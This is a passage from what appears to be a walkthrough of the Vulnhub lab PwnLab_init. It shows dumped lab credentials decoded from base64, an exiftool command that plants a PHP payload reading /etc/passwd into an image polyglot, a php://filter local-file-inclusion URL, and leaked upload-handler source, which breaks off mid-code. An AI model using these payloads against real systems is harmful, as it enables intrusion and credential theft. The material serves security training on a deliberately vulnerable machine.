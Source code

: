 ```resoults
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
```

> [!Creds]
> kent:JWzXuBJJNy
> mike:SIfdsTEn6I
> kane:iSv5Ym2GRo

# ~~File Uploud to RCE~~
![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515022052.png)

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" sad.jpg -o polyglot.php
```

```http
http://192.168.3.185/?page=php://filter/convert.base64-encode/resource=upload
```

```
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
        <body>
                <form action='' method='post' enctype='multipart/form-data'>
                        <input type='file' name='file' id='file' />
                        <input type='submit' name='submit' value='Upload'/>
                </form>
        </body>
</html>
<?php 
if(isset($_POST['submit'])) {
        if ($_FILES['file']['error'] <= 0) {
                $filename  = $_FILES['file']['name'];
                $filetype  = $_FILES['file']['type'];
                $uploaddir = 'upload/';
                $file_ext  = strrchr($filename, '.');
                $imageinfo = getimagesize($_FILES['file']['tmp_name']);
                $whitelist = array(".jpg",".jpeg",".gif",".png"); 
```